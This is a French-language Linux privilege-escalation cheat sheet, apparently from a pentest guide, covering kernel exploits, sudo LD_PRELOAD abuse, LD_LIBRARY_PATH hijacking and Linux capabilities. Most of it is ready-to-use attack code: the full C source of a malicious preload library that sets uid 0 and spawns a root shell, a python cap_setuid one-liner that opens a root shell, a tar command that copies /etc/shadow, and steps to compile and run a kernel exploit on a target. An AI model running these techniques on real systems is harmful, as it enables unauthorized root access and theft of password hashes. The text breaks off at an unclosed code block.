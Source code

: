 # 05-Escalade Basée sur les Mécanismes Internes de Linux

### Exploits Noyau (Kernel Exploits)
> Exploiter des vulnérabilités dans le noyau Linux lui-même. C'est souvent risqué et peut causer l'instabilité du système.

**1. Identification de la Version du Noyau et de la Distribution :**
```bash
uname -a
cat /etc/os-release
cat /etc/issue
lsb_release -a
```

**2. Recherche d'Exploits :**
*   Rechercher sur Exploit-DB, GitHub, Google avec la version du noyau et de la distribution.
*   Utiliser des outils comme `linux-exploit-suggester` ou `linux-exploit-suggester-2`.

**3. Compilation et Exécution (Exemple Générique) :**
```bash
# Transférer le code source de l'exploit (ex: kernel_exploit.c) sur la cible.
# Compiler l'exploit (nécessite gcc et les headers du noyau, parfois)
gcc kernel_exploit.c -o kernel_exploit -pthread # Les options de compilation varient
chmod +x kernel_exploit
./kernel_exploit
# Si réussi, un shell root ou un utilisateur privilégié est obtenu.
```
> **Attention :** Toujours tester les exploits noyau dans un environnement contrôlé. Ils peuvent planter le système.
> **Test et Validation des Exploits Potentiels (Méthodique) :**
> *   **Environnement de test :** Si possible, reproduire la configuration vulnérable dans un environnement de test avant d'exécuter des exploits sur le système cible.
> *   **Compréhension de l'exploit :** Bien comprendre comment l'exploit fonctionne avant de l'utiliser. Modifier l'exploit si nécessaire pour l'adapter à l'environnement cible.
> *   **Exécution prudente :** Exécuter les exploits avec prudence pour éviter de crasher le système.
> *   **Vérification de l'élévation :** Après l'exécution de l'exploit, vérifier si l'élévation de privilèges a réussi (`whoami`, `id`).

### Bibliothèques Partagées (LD_PRELOAD, LD_LIBRARY_PATH)
> Abuser du mécanisme de chargement des bibliothèques partagées.

**1. `LD_PRELOAD` avec Sudo :**
> Si `sudo -l` montre que la variable `LD_PRELOAD` est conservée (`env_keep+=LD_PRELOAD`) lors de l'exécution d'une commande avec `sudo`.
```bash
# Vérifier la configuration sudo
sudo -l

# Créer une bibliothèque malveillante (ex: /tmp/evil_lib.c)
cat << EOF > /tmp/evil_lib.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
  unsetenv("LD_PRELOAD"); // Éviter les boucles infinies
  setgid(0);
  setuid(0);
  system("/bin/bash -p");
}
EOF
gcc -fPIC -shared -o /tmp/evil_lib.so /tmp/evil_lib.c -nostartfiles

# Exécuter la commande autorisée par sudo avec LD_PRELOAD pointant vers notre bibliothèque
sudo LD_PRELOAD=/tmp/evil_lib.so /chemin/vers/commande_autorisee_par_sudo
```

**2. `LD_LIBRARY_PATH` :**
> Si un binaire SUID root utilise `LD_LIBRARY_PATH` et que cette variable pointe vers un répertoire inscriptible, on peut y placer une bibliothèque malveillante portant le même nom qu'une bibliothèque légitime chargée par le binaire.
```bash
# Scénario : un binaire SUID /usr/local/bin/suid_app charge libexample.so
# Et nous pouvons contrôler LD_LIBRARY_PATH ou écrire dans un des chemins de LD_LIBRARY_PATH.
# Créer notre propre libexample.so malveillante.
# gcc -shared -fPIC -o /tmp/ourlibs/libexample.so evil_code.c
# export LD_LIBRARY_PATH=/tmp/ourlibs:$LD_LIBRARY_PATH
# /usr/local/bin/suid_app # Devrait charger notre libexample.so
```

### Capacités Linux (Capabilities)
> Les capacités Linux permettent de diviser les privilèges root en unités plus petites. Un binaire avec certaines capacités peut effectuer des actions privilégiées spécifiques.

**1. Lister les Capacités des Fichiers :**
```bash
getcap -r / 2>/dev/null
```
**2. Exploitation des Capacités :**
> Rechercher des binaires avec des capacités intéressantes (ex: `cap_sys_admin`, `cap_setuid`, `cap_setgid`, `cap_dac_override`, `cap_dac_read_search`, `cap_chown`, `cap_fowner`).
> Consulter GTFOBins pour les techniques d'exploitation basées sur les capacités.

*   **Scénario 4 (Capabilities dangereuses) :** Si des binaires ont des capabilities comme `cap_setuid`, `cap_setgid`, `cap_sys_admin`, `cap_dac_override`, explorer comment ces capabilities peuvent être utilisées pour élever les privilèges.
    *   Exemple (`cap_setuid` sur un interpréteur) :
        ```bash
        # getcap /usr/bin/python*
        # Si python a cap_setuid+ep:
        # /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
        ```
    *   Exemple (`cap_dac_read_search` sur `tar`) :
        ```bash
        # Si tar a cap_dac_read_search :
        /usr/bin/tar -cf /tmp/shadow.tar /etc/shadow
        # Extraire /tmp/shadow.tar pour lire le fichier shadow.
        ```
    *   Exemple (`cap_sys_admin`): Cette capacité est très puissante et permet de nombreuses actions, y compris le montage de systèmes de fichiers. Si un binaire comme `mount` a cette capacité (ou si un binaire général comme `python` l'a), cela peut être abusé.

Exemple avec `tar` ayant la capacité `cap_dac_read_search` (permet de lire n'importe quel fichier) ou `cap_dac_override` :
```